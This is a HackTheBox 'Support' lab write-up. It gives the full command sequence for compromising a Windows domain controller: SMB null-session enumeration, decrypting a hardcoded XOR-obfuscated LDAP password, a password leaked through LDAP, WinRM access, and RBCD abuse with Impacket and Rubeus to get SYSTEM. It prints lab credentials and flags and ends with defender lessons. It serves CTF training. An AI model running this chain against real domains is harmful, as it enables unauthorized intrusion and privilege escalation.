

# [Support](https://app.hackthebox.com/machines/Support) - HackTheBox Machines Writeup

```
Box       : Support
OS        : Windows Server 2022
Difficulty: Easy
Target    : 10.129.230.181
Attacker  : 10.10.15.71
```

This box was done as a guided module. The guided questions and my answers are kept inline alongside the commands that produced them.

---

## Attack Path Overview

```
SMB Enum (support-tools share)  >  UserInfo.exe (Non-Public Tool)
        v
Decompile Binary  >  XOR-Obfuscated LDAP Service Password
        v
LDAP Bind as support\ldap  >  "info" Attribute Leaks support User Password
        v
WinRM as support  >  user.txt
        v
BloodHound: support has GenericAll on DC.SUPPORT.HTB
        v
Add Fake Computer Account  >  RBCD  >  Rubeus S4U  >  Administrator Ticket
        v
ticketConverter + psexec (Kerberos Auth)  >  SYSTEM / root.txt
```

Work started directly against SMB, which is open on every Windows domain controller by default.

---

## 1. SMB Enumeration

> **Task 1:** How many shares is Support showing on SMB?
>
> **Answer:** 6

```bash
$ smbclient -L //10.129.230.181/ -N

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share
	support-tools   Disk      support staff tools
	SYSVOL          Disk      Logon server share
```

`-N` suppresses the normal password prompt (null session).


> **Task 2:** Which share is not a default share for a Windows domain controller?
>
> **Answer:** support-tools

`ADMIN$`, `C$`, `IPC$`, `NETLOGON` and `SYSVOL` are the [default shares](https://woshub.com/enable-remote-access-to-admin-shares-in-workgroup/) present on every domain controller acording to some quick research. `support-tools` is the odd one out.

### 1.1 The support-tools Share

> **Task 3:** Almost all of the files in this share are publicly available tools, but one is not. What is the name of that file?
>
> **Answer:** UserInfo.exe.zip

```bash
$ smbclient //10.129.230.181/support-tools -N -c 'ls'

  .                                   D        0  Wed Jul 20 19:01:06 2022
  ..                                  D        0  Sat May 28 13:18:25 2022
  7-ZipPortable_21.07.paf.exe         A  2880728  Sat May 28 13:19:19 2022
  npp.8.4.1.portable.x64.zip          A  5439245  Sat May 28 13:19:55 2022
  putty.exe                           A  1273576  Sat May 28 13:20:06 2022
  SysinternalsSuite.zip               A 48102161  Sat May 28 13:19:31 2022
  UserInfo.exe.zip                    A   277499  Wed Jul 20 19:01:07 2022
  windirstat1_1_2_setup.exe           A    79171  Sat May 28 13:20:17 2022
  WiresharkPortable64_3.6.5.paf.exe   A 44398000  Sat May 28 13:19:43 2022
```

| File | What it is |
|---|---|
| 7-ZipPortable_21.07.paf.exe | zip program |
| npp.8.4.1.portable.x64.zip | Notepad++ |
| putty.exe | terminal emulator |
| SysinternalsSuite.zip | troubleshooting utilities |
| UserInfo.exe.zip | ? |
| windirstat1_1_2_setup.exe | disk usage analyzer |
| WiresharkPortable64_3.6.5.paf.exe | packet analyzer |


Six of these seven files are well-known, publicly available tools. `UserInfo.exe.zip` has no public release under that name and has a different modification date than the rest.

```bash
$ smbclient //10.129.230.181/support-tools -N -c "get UserInfo.exe.zip"
getting file \UserInfo.exe.zip of size 277499 as UserInfo.exe.zip (34.8 KiloBytes/sec) (average 34.8 KiloBytes/sec)

$ unzip UserInfo.exe.zip
Archive:  UserInfo.exe.zip
  inflating: UserInfo.exe
  inflating: CommandLineParser.dll
  inflating: Microsoft.Bcl.AsyncInterfaces.dll
  inflating: Microsoft.Extensions.DependencyInjection.Abstractions.dll
  inflating: Microsoft.Extensions.DependencyInjection.dll
  inflating: Microsoft.Extensions.Logging.Abstractions.dll
  inflating: System.Buffers.dll
  inflating: System.Memory.dll
  inflating: System.Numerics.Vectors.dll
  inflating: System.Runtime.CompilerServices.Unsafe.dll
  inflating: System.Threading.Tasks.Extensions.dll
  inflating: UserInfo.exe.config

$ cat UserInfo.exe.config
<?xml version="1.0" encoding="utf-8"?>
<configuration>
    <startup>
        <supportedRuntime version="v4.0" sku=".NETFramework,Version=v4.8" />
    </startup>
  <runtime>
    <assemblyBinding xmlns="urn:schemas-microsoft-com:asm.v1">
      <dependentAssembly>
        <assemblyIdentity name="System.Runtime.CompilerServices.Unsafe" publicKeyToken="b03f5f7f11d50a3a" culture="neutral" />
        <bindingRedirect oldVersion="0.0.0.0-6.0.0.0" newVersion="6.0.0.0" />
      </dependentAssembly>
    </assemblyBinding>
  </runtime>
</configuration>
```

`UserInfo.exe.config` confirms it targets .NET Framework.

## 2. Reversing UserInfo.exe

### 2.1 First Attempt: monodis

My first idea was to disassemble the binary directly with `monodis` from `mono-utils`:

```bash
$ apt install -y mono-utils
$ monodis UserInfo.exe > disassembly.txt
```

This dumps raw CIL (Common Intermediate Language) bytecode. The method that builds the password looked like this:

```
.namespace UserInfo.Services
{
  .class private auto ansi beforefieldinit Protected
        extends [mscorlib]System.Object
  {
    .field  private static  string enc_password
    .field  private static  unsigned int8[] key

    .method public static hidebysig
           default string getPassword ()  cil managed
    {
        IL_0000:  ldsfld string UserInfo.Services.Protected::enc_password
        IL_0005:  call unsigned int8[] class [mscorlib]System.Convert::FromBase64String(string)
        IL_000a:  stloc.0
        IL_000b:  ldloc.0
        IL_000c:  stloc.1
        IL_000d:  ldc.i4.0
        IL_000e:  stloc.2
        IL_000f:  br.s IL_0032

        IL_0011:  ldloc.1
        IL_0012:  ldloc.2
        IL_0013:  ldloc.0
        IL_0014:  ldloc.2
        IL_0015:  ldelem.u1
        IL_0016:  ldsfld unsigned int8[] UserInfo.Services.Protected::key
        IL_001b:  ldloc.2
        IL_001c:  ldsfld unsigned int8[] UserInfo.Services.Protected::key
        IL_0021:  ldlen
        IL_0022:  conv.i4
        IL_0023:  rem
        IL_0024:  ldelem.u1
        IL_0025:  xor
        IL_0026:  ldc.i4 223
        IL_002b:  xor
        IL_002c:  conv.u1
        IL_002d:  stelem.i1
        IL_002e:  ldloc.2
        IL_002f:  ldc.i4.1
        IL_0030:  add
        IL_0031:  stloc.2
        IL_0032:  ldloc.2
        IL_0033:  ldloc.0
        IL_0034:  ldlen
        IL_0035:  conv.i4
        IL_0036:  blt.s IL_0011

        IL_0038:  call class [mscorlib]System.Text.Encoding class [mscorlib]System.Text.Encoding::get_Default()
        IL_003d:  ldloc.1
        IL_003e:  callvirt instance string class [mscorlib]System.Text.Encoding::GetString(unsigned int8[])
        IL_0043:  ret
    } // end of method Protected::getPassword

    .method private static hidebysig specialname rtspecialname
           default void '.cctor' ()  cil managed
    {
        IL_0000:  ldstr "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"
        IL_0005:  stsfld string UserInfo.Services.Protected::enc_password
        IL_000a:  call class [mscorlib]System.Text.Encoding class [mscorlib]System.Text.Encoding::get_ASCII()
        IL_000f:  ldstr "armando"
        IL_0014:  callvirt instance unsigned int8[] class [mscorlib]System.Text.Encoding::GetBytes(string)
        IL_0019:  stsfld unsigned int8[] UserInfo.Services.Protected::key
        IL_001e:  ret
    } // end of method Protected::.cctor

  } // end of class UserInfo.Services.Protected
}
```

Technically complete, but tracing the actual logic byte by byte through raw IL is slow and error-prone. I dropped this approach.

### 2.2 Installing ILSpy

`dnSpy` is no longer maintained, so I went with `ILSpy` instead. Building the GUI from source failed, the repo targets .NET 11 and Kali only ships the 6.0 and [Microsofts only provides](https://learn.microsoft.com/en-us/dotnet/core/install/linux-debian) 10.0 SDKs:

```bash
$ git clone https://github.com/icsharpcode/ILSpy.git
$ cd ILSpy
$ dotnet build ILSpy.XPlat.slnf

Requested SDK version: 11.0.0
global.json file: /root/projects/Support/ILSpy/global.json

Installed SDKs:
6.0.400 [/usr/share/dotnet/sdk]
10.0.402 [/usr/share/dotnet/sdk]

Install the [11.0.0] .NET SDK or update [/root/projects/Support/ILSpy/global.json] to match an installed SDK.
```

Editing `global.json` to point at the installed 10.0 SDK still failed, the project itself requires .NET 11 features:

```bash
$ vim global.json
$ dotnet build ILSpy.XPlat.slnf

error NETSDK1045: The current .NET SDK does not support targeting .NET 11.0.  Either target .NET 10.0 or lower, or use a version of the .NET SDK that supports .NET 11.0.
Restore failed with 4 error(s) in 1.1s
```

Rather than chase the SDK mismatch further, I installed `ilspycmd`, the command-line decompiler, as a global dotnet tool instead, no build step needed:

```bash
$ dotnet tool install -g ilspycmd

You can invoke the tool using the following command: ilspycmd
Tool 'ilspycmd' (version '11.1.0.9782') was successfully installed.

$ export PATH="$PATH:$HOME/.dotnet/tools"
```

### 2.3 Decompiling

```bash
$ ilspycmd UserInfo.exe -o UserInfo_decompiled
$ less UserInfo_decompiled/UserInfo.decompiled.cs
```

The relevant part:

```csharp
internal class Protected
{
    private static string enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E";
    private static byte[] key = Encoding.ASCII.GetBytes("armando");

    public static string getPassword()
    {
        byte[] array = Convert.FromBase64String(enc_password);
        byte[] array2 = array;
        for (int i = 0; i < array.Length; i++)
        {
            array2[i] = (byte)(array[i] ^ key[i % key.Length] ^ 0xDF);
        }
        return Encoding.Default.GetString(array2);
    }
}
```

This is not real encryption, just a two-layer XOR obfuscation:

1. **Base64 decode** `enc_password` into raw bytes.
2. **XOR with a rotating key**: each byte is XORed against the matching byte of `"armando"`. Since the key is only 7 bytes long and the data is longer, it cycles (`i % key.Length`).
3. **XOR with a fixed constant** `0xDF` (223 decimal), a second, static obfuscation layer on top.
4. Convert the resulting bytes back into a string.

XOR is its own inverse, so running the exact same two XOR passes anywhere else recovers the plaintext.

### 2.4 Recovering the Plaintext

```python
#!/usr/bin/env python3
import base64

enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"
key = b"armando"

def decrypt(enc_b64: str, key: bytes) -> str:
    data = base64.b64decode(enc_b64)
    out = bytearray(len(data))
    for i, b in enumerate(data):
        out[i] = b ^ key[i % len(key)] ^ 0xDF
    return out.decode("latin-1")

if __name__ == "__main__":
    print(decrypt(enc_password, key))
```

```
$ python3 decrypt.py
nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

> **Task 4:** What is the hardcoded password used for LDAP in the UserInfo.exe binary?
>
> **Answer:** nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz

The decompiled source also shows exactly where this password is used, and this is also where the domain name comes from, it is not visible from any network scan, it is hardcoded in the binary:

```csharp
entry = new DirectoryEntry("LDAP://support.htb", "support\\ldap", password);
```

`UserInfo.exe` binds to LDAP as `support\ldap` against `support.htb`.

## 3. LDAP Enumeration

```bash
$ echo "10.129.230.181 support.htb dc.support.htb" >> /etc/hosts

$ ldapsearch -x -H ldap://support.htb -D 'support\ldap' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb" | less
```

> **Task 5:** Which field in the LDAP data for the user named support stands out as potentially holding a password?
>
> **Answer:** info

Going through the returned user objects, the `support` user stands out. Its `info` attribute is normally free text but here holds something else entirely:

```
# support, Users, support.htb
dn: CN=support,CN=Users,DC=support,DC=htb
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: support
c: US
l: Chapel Hill
st: NC
postalCode: 27514
distinguishedName: CN=support,CN=Users,DC=support,DC=htb
instanceType: 4
whenCreated: 20220528111200.0Z
whenChanged: 20220528111201.0Z
uSNCreated: 12617
info: Ironside47pleasure40Watchful
memberOf: CN=Shared Support Accounts,CN=Users,DC=support,DC=htb
memberOf: CN=Remote Management Users,CN=Builtin,DC=support,DC=htb
```

**Credentials found:** `support : Ironside47pleasure40Watchful`

The user is also a member of **Remote Management Users**.

> **Task 6:** What open port on Support allows a user in the Remote Management Users group to run PowerShell commands and get an interactive shell?
>
> **Answer:** 5985 (WinRM)

Confirmed with a quick single-port check:

```bash
$ nmap -p 5985 10.129.230.181

Nmap scan report for support.htb (10.129.230.181)
Host is up (0.024s latency).

PORT     STATE SERVICE
5985/tcp open  wsman
```

## 4. Initial Access - WinRM

```bash
$ evil-winrm -i support.htb -u 'support' -p 'Ironside47pleasure40Watchful'
Info: Connection successful
*Evil-WinRM* PS C:\Users\support\Documents> ls ../Desktop/

    Directory: C:\Users\support\Desktop

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-ar---        10/23/2026  12:46 PM             34 user.txt

*Evil-WinRM* PS C:\Users\support\Documents> cat ../Desktop/user.txt
cb91d2a7800cb83d9237d4bfc8e138d5
```

## 5. BloodHound - Finding the Path to Administrator

### 5.1 Collection

```bash
$ bloodhound-python -u 'support' -p 'Ironside47pleasure40Watchful' -d support.htb -ns 10.129.230.181 -c all

INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: support.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (dc.support.htb:88)] [Errno -2] Name or service not known
INFO: Connecting to LDAP server: dc.support.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc.support.htb
INFO: Found 21 users
INFO: Found 53 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: dc.support.htb
INFO: Done in 00M 45S
```

The initial Kerberos TGT request fails and the tool falls back to NTLM, the collection still completes fine. This drops a set of JSON files in the current directory:

```bash
$ ls 20261024014008*
20261024014008_computers.json   20261024014008_domains.json  20261024014008_groups.json  20261024014008_users.json
20261024014008_containers.json  20261024014008_gpos.json     20261024014008_ous.json
```

### 5.2 Setting Up BloodHound CE

```bash
$ neo4j start
$ bloodhound-start

It seems it's the first time you run bloodhound
Please run bloodhound-setup first

Do you want to run bloodhound-setup now? [Y/n]

 [*] Starting PostgreSQL service

 [*] Creating Database
WARNING:  database "postgres" has a collation version mismatch
DETAIL:  The database was created using collation version 2.42, but the operating system provides version 2.43.
createdb: error: database creation failed: ERROR:  template database "template1" has a collation version mismatch
```

Fix:

```bash
$ sudo -u postgres psql
ALTER DATABASE postgres REFRESH COLLATION VERSION;
ALTER DATABASE template1 REFRESH COLLATION VERSION;
\q

$ bloodhound-setup
```

Default login `neo4j`/`neo4j`, which the web form forces you to change on first login, the new password then has to be copied manually into `/etc/bhapi/bhapi.json`. After that:

```bash
$ bloodhound-start --disable-gpu
# choose not-first-time setup
```

Default web login: `admin`/`admin`.

### 5.3 Analysis

After uploading the JSON files, searching for `support@support.htb` in the explorer and marking it owned, the **Outbound Object Control** tab on that node shows: `support` is a member of **Shared Support Accounts**, which has **GenericAll** on `dc.support.htb`.

> **Task 7:** BloodHound data will show that the support user has what privilege on the DC.SUPPORT.HTB object?
>
> **Answer:** GenericAll

`GenericAll` on a computer object means full control over it, including attributes that are normally protected, such as delegation settings.



## 6. Computer Takeover Attack

### 6.1 Machine Account Quota

A common way to abuse `GenericAll` on a computer object is **Resource-Based Constrained Delegation (RBCD)**: register a machine account under your own control, then let it impersonate any user against the target computer.

> **Task 8:** A common attack with GenericAll on a computer object is to add a fake computer to the domain. What attribute on the domain sets how many computer accounts a user is allowed to create in the domain?
>
> **Answer:** ms-DS-MachineAccountQuota

```bash
$ ldapsearch -x -H ldap://support.htb -D 'support\ldap' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb" -s base "(objectClass=*)" "*"
dn: DC=support,DC=htb
...
ms-DS-MachineAccountQuota: 10
...
```

A value of 10, plenty of room for one fake computer.

### 6.2 Adding a Fake Computer

```bash
$ impacket-addcomputer -computer-name 'FAKE01$' -computer-pass 'Passw0rd123!' -dc-ip 10.129.230.181 'support.htb/ldap:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'

[*] Successfully added machine account FAKE01$ with password Passw0rd123!.
```

Any authenticated account can do this, up to the quota. The `ldap` service account is sufficient here.

### 6.3 Configuring RBCD

Using the `support` user's `GenericAll` on `DC.SUPPORT.HTB`, write the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute so that `FAKE01$` is allowed to act on behalf of other identities against the DC:

```bash
$ impacket-rbcd -delegate-from 'FAKE01$' -delegate-to 'DC$' -dc-ip 10.129.230.181 -action write 'support.htb/support:Ironside47pleasure40Watchful'

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] FAKE01$ can now impersonate users on DC$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     FAKE01$      (S-1-5-21-1677581083-3380853377-188903654-6101)
```

### 6.4 Rubeus S4U - Requesting a Ticket as Administrator

The fake computer account needs its NTLM hash for Kerberos pre-auth:

```bash
$ python3 -c "import hashlib; print(hashlib.new('md4', 'Passw0rd123!'.encode('utf-16le')).hexdigest())"
ab4f5a5c42df5a0ee337d12ce77332f5
```

Upload Rubeus into the existing `support` WinRM session and run the S4U chain from there:

```powershell
$ evil-winrm -i support.htb -u 'support' -p 'Ironside47pleasure40Watchful'

*Evil-WinRM* PS C:\Users\support\Documents> upload /usr/share/windows-resources/rubeus/Rubeus.exe
Info: Upload successful!
*Evil-WinRM* PS C:\Users\support\Documents> .\Rubeus.exe s4u /user:FAKE01$ /rc4:ab4f5a5c42df5a0ee337d12ce77332f5 /impersonateuser:administrator /msdsspn:cifs/dc.support.htb /ptt /nowrap
```

Rubeus runs the full S4U chain in one command:

- **S4U2self**: `FAKE01$` requests a service ticket to itself on behalf of `administrator`. Any account can do this for any user, it just produces a ticket that is only usable against the requesting account itself, so by itself it grants nothing yet.
- **S4U2proxy**: `FAKE01$` presents that ticket and asks the DC for a service ticket to `cifs/dc.support.htb`, this time as administrator. This step only succeeds because of the RBCD entry from 6.3, the DC now trusts `FAKE01$` to act on behalf of other users.

Output (base64 kirbi blobs truncated for readability):

```
   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

[*] Action: S4U
[*] Using rc4_hmac hash: ab4f5a5c42df5a0ee337d12ce77332f5
[*] Building AS-REQ (w/ preauth) for: 'support.htb\FAKE01$'
[+] TGT request successful!
[*] base64(ticket.kirbi):
      doIFUjCCBU6gAwIBBaEDAgEWooIEazCCBGdhggRj...==

[*] Action: S4U
[*] Using domain controller: dc.support.htb (::1)
[*] Building S4U2self request for: 'FAKE01$@SUPPORT.HTB'
[*] Sending S4U2self request
[+] S4U2self success!
[*] Got a TGS for 'administrator' to 'FAKE01$@SUPPORT.HTB'
[*] base64(ticket.kirbi):
      doIFojCCBZ6gAwIBBaEDAgEWooIEwTCCBL1h...=

[*] Impersonating user 'administrator' to target SPN 'cifs/dc.support.htb'
[*] Using domain controller: dc.support.htb (::1)
[*] Building S4U2proxy request for service: 'cifs/dc.support.htb'
[*] Sending S4U2proxy request
[+] S4U2proxy success!
[*] base64(ticket.kirbi) for SPN 'cifs/dc.support.htb':
      doIGYDCCBlygAwIBBaEDAgEWooIFcjCC...=
[+] Ticket successfully imported!
```

Rubeus imports the final ticket with `/ptt` into the current logon session, but that session is the evil-winrm shell running on the target DC itself, not my Kali box. Rubeus reporting success there does not hand me anything usable on its own, the ticket still has to be moved across.

### 6.5 Getting the Ticket onto Kali

Copy the last base64 blob (the `cifs/dc.support.htb` one from S4U2proxy) and decode it locally:

```bash
$ echo '<base64-kirbi-from-rubeus>' | base64 -d > administrator.kirbi
```

Impacket tools do not understand the `.kirbi` format Windows/Rubeus uses, they expect the `ccache` format MIT Kerberos uses on Linux.

> **Task 9:** Following the steps for the Computer Takeover attack, eventually I get a ticket for the administrator, which Rubeus says should give administrator access in that session, but it doesn't work. What is the name of the script from Impacket that can convert that ticket to ccache format?
>
> **Answer:** impacket-ticketConverter

```bash
$ impacket-ticketConverter administrator.kirbi administrator.ccache

[*] converting kirbi to ccache...
[+] done
```

> **Task 10:** What is the name of the environment variable on our local system that we'll set to that ccache file to allow use of files like psexec.py with the -k and -no-pass options?
>
> **Answer:** KRB5CCNAME

Point `KRB5CCNAME` at the converted ticket so Impacket tools use it automatically instead of asking for a password:

```bash
$ export KRB5CCNAME=administrator.ccache
```

## 7. Privilege Escalation - SYSTEM

With the ccache ticket in place, `-k` tells `psexec.py` to use Kerberos auth and `-no-pass` skips the password prompt entirely:

```bash
$ impacket-psexec support.htb/administrator@dc.support.htb -k -no-pass

[*] Requesting shares on dc.support.htb.....
[*] Found writable share ADMIN$
[*] Uploading file COHhOpRQ.exe
[*] Opening SVCManager on dc.support.htb.....
[*] Creating service iUxz on dc.support.htb.....
[*] Starting service iUxz.....

Microsoft Windows [Version 10.0.20348.859]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> dir C:\Users\Administrator\Desktop\
 Directory of C:\Users\Administrator\Desktop

10/25/2026  02:10 AM                34 root.txt
               1 File(s)             34 bytes

C:\Windows\system32> type C:\Users\Administrator\Desktop\root.txt
cb38fe22cfc1e667096f2b146188d366
```

## Lessons Learned

**For defenders:**

- **DIY encrption is not safe.** `UserInfo.exe` shipped with a hardcoded LDAP service password, obfuscated with reversible XOR instead of real encryption.
- **The AD `info` attribute is plain free text.** It should never hold a password, even "temporarily".
- **GenericAll on a computer object is equivalent to full control of that object.** Combined with a non-zero `ms-DS-MachineAccountQuota`, it is a direct path to Resource-Based Constrained Delegation.
- **The default `ms-DS-MachineAccountQuota` of 10 lets any authenticated user add machine accounts.** Setting it to 0 closes off this entire class of RBCD attacks.

**What I learned**

- **A real decompiler beats raw IL disassembly.** `monodis` output is technically complete but far slower to work through than the reconstructed C# from `ilspycmd`.
- **The full RBCD chain, end to end**: GenericAll on a computer object -> add a machine account -> write `msDS-AllowedToActOnBehalfOfOtherIdentity` -> Rubeus S4U2self/S4U2proxy -> ticketConverter -> Kerberos auth via Impacket.

**Tools I used**

- smbclient
- mono-utils / ilspycmd
- ldapsearch
- nmap
- evil-winrm
- bloodhound-python / BloodHound CE
- Impacket (addcomputer.py, rbcd.py, ticketConverter.py, psexec.py)
- Rubeus
